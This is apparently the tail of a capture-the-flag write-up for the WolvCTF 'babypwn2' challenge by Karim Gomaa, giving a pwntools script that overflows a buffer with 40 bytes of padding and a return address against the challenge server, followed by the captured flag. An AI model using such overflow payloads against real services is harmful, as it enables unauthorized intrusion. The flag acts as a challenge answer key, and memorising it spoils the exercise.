 now script time:
```python
import pwn

r = pwn.remote('babypwn2.wolvctf.io', 1337)

payload = "A"*40 + '\x95\x11@\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```

**wctf{Wo4h_l0ok_4t_y0u_h4ck1ng_m3}**

#### Written by

## *Karim Gomaa*